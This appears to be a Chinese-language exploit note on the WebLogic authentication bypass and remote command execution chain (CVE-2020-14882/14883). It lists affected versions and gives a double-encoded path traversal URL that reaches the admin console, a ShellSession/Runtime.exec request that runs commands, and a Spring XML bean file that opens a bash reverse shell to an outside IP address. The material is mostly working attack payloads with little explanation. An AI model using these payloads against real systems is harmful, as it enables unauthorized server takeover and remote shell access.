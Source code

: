     CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

* 版本

    10.3.6.0.0 
    12.1.3.0.0 
    12.2.1.3.0 
    12.2.1.4.0 
    14.1.1.0.0 

* 利用

    `http://127.0.0.1:7001/console/css/%252e%252e%252fconsole.portal`

    这里是双重url编码，浏览器可以解释双重url编码后的字符

    >https://www.it610.com/article/1305487224711712768.htm

    也就是从css页面进行路径穿越到后台管理页面，但是得到的是低权限用户

## CVE-2020-14883

* 影响

    允许后台任意用户通过HTTP协议执行任意命令

* 方法1

    代码执行、创建文件

    ```s

    127.0.0.1:70001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/123');")`
    ```
    文件构造

    ```xml

    <beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
    <list>
    <value>-c</value>
    <value>/bin/bash</value>
    <value><![CDATA[bash -i >& /dev/tcp/1.1.1.1/8888 0>&1]]></value>
    </list>
    </constructor-arg>
    </bean>
    </beans>   
    ```
    
    文件放到weblogic可以访问到的服务器上`http://1.1.1.1/rce.xml`

    反弹shell

